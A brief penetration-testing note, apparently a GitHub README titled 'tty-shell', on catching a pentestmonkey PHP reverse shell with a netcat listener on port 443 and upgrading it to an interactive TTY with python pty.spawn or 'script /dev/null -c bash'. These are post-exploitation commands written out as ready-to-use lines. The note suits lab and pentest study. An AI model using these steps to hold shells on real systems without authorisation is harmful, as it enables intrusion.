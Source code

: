 # tty-shell

	

i used a pentestmonkey php reverse shell,  so now just setup a nc listener and catch your shell

nc -lvp 443

now we have the shell, we can try to get a TTY shell with python,

python -c "import pty; pty.spawn('/bin/bash')"

python3 -c 'import pty; pty.spawn("/bin/sh")'

however if python was not installed, i use this

script /dev/null -c bash

voila now we have a TTY Shell
